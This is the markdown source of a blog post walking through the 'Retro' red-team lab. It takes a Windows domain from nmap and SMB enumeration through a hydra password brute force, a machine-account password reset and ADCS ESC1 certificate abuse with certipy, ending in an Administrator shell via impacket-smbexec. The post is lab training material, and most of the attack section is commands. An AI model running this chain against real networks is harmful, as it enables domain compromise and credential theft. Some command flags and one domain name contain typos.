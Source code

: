 ```yaml
---
title: "Retro"
date: 2025-01-16 00:00:00 +0800 
categories: [Red Team]
tags: [Red Team]     # TAG names should always be lowercase
---
```



![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro1.webp)

First, we gather information about open ports and services on the target system using nmap.

1.Reconnaissance with Nmap

nmap -A -T4 -Pn 10.10.90.119

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro2.webp)

smbclient -L 10.10.90.119

In the results of our Nmap scan, we observe that SMB is open on the target system. The next step is to verify whether we can access and view the available shares over SMB without needing to authenticate. This will help us understand if there are any exposed shares that could be accessible without credentials

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro3.webp)

smbclient //10.10.90.119/Notes -U ""

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro4.webp)

smbclient //10.10.90.119/Trainees -U ""

Among the listed shares, if there is one that we have access to, let’s examine it further. We should verify the contents and permissions associated with this share to assess if any sensitive information or misconfigurations are exposed

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro5.webp)

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro6.webp)

impacket-lookupsid retro.vl/'Guest'@10.10.90.119 -domian-sids -no-pass

Let’s gather information about other groups and users in the domain using the Guest account.

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro7.webp)

498: RETRO\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: RETRO\Administrator (SidTypeUser)
501: RETRO\Guest (SidTypeUser)
502: RETRO\krbtgt (SidTypeUser)
512: RETRO\Domain Admins (SidTypeGroup)
513: RETRO\Domain Users (SidTypeGroup)
514: RETRO\Domain Guests (SidTypeGroup)
515: RETRO\Domain Computers (SidTypeGroup)
516: RETRO\Domain Controllers (SidTypeGroup)
517: RETRO\Cert Publishers (SidTypeAlias)
518: RETRO\Schema Admins (SidTypeGroup)
519: RETRO\Enterprise Admins (SidTypeGroup)
520: RETRO\Group Policy Creator Owners (SidTypeGroup)
521: RETRO\Read-only Domain Controllers (SidTypeGroup)
522: RETRO\Cloneable Domain Controllers (SidTypeGroup)
525: RETRO\Protected Users (SidTypeGroup)
526: RETRO\Key Admins (SidTypeGroup)
527: RETRO\Enterprise Key Admins (SidTypeGroup)
553: RETRO\RAS and IAS Servers (SidTypeAlias)
571: RETRO\Allowed RODC Password Replication Group (SidTypeAlias)
572: RETRO\Denied RODC Password Replication Group (SidTypeAlias)
1000: RETRO\DC$ (SidTypeUser)
1101: RETRO\DnsAdmins (SidTypeAlias)
1102: RETRO\DnsUpdateProxy (SidTypeGroup)
1104: RETRO\trainee (SidTypeUser)
1106: RETRO\BANKING$ (SidTypeUser)
1107: RETRO\jburley (SidTypeUser)
1108: RETRO\HelpDesk (SidTypeGroup)
1109: RETRO\tblack (SidTypeUser)

hydra -l 'trainee' -P /usr/share/wordlists/rockyou.txt ldap2://10.10.90.119:389 -V


Using the Hydra tool, let’s attempt to discover the password for the user ‘trainee,’ whose username we previously identified. We will use the Rockyou password list to perform a brute-force attack, systematically testing possible passwords to see if we can successfully authenticate and gain access with this account.

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro8.webp)
![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro9.webp)

smbclient //10.10.90.119/Notes -U "trainee"

Now that we have successfully found the password for the trainee user, let’s proceed to attempt accessing and viewing the contents of the shared resource that was previously inaccessible to us. This will allow us to examine any files or data within the share that might now be available with the credentials we’ve obtained

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro10.webp)


The note suggests that we should specifically focus on pre-computer accounts, directing our attention to these as a priority. This likely implies that these accounts may hold important information or require further analysis in the context of our assessment.

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro11.webp)

bloodhound-python -d 'retro.vl' -u 'trainee' -p 'trainee' -c all -ns 10.10.90.119 --zip --use-laps

Let’s use the BloodHound tool to enumerate and list all objects, resources, and permissions that the trainee user has access to within the domain. This will help us gain a clearer understanding of the extent of their privileges and identify any potential areas where they may have access to sensitive or critical assets

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro12.webp)
![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro13.webp)

impacket-changepasswd retro.vl/banking$:banking@10.10.90.119 -dc-ip 10.10.90.119 -altuser "trainee" -altpass "trainee" -newpass pass123

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro14.webp)

crackmapexec smb  10.10.90.119 -u 'banking$' -p 'pass123'

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro15.webp)

certipy-ad find -username 'banking$'@retro.vl -password 'pass123' -dc-ip 10.10.90.119 -vulnerable -nabled -stdout

ESC1 ADCS Exploitation

certipy-ad find -username 'banking$'@retro.vl -password 'pass123' -dc-ip 10.10.90.119 -vulnerable -nabled -stdout

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro16.webp)
![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro17.webp)
![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro18.webp)
![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro19.webp)

certipy-ad req -u 'banking$'@retro.vl -p 'pass123' -dc-ip 10.10.90.119 -target DC.retro.vl -ca retro-DC-CA -template RetroClients -upn Administrator@retvo.vl -key-size 4096

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro20.webp)

certipy-ad auth -dc-ip 10.10.90.119 -domain 'retro.vl' -username Administrator -pfx administrator.pfx

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro21.webp)

impacket-smbexec -shell-type powershell -dc-ip 10.10.90.119 -hashes .. retro.vl/Administrator@10.10.90.119

![resim]({{ site.url }}{{ site.baseurl }}/assets/img/posts/Retro22.webp)



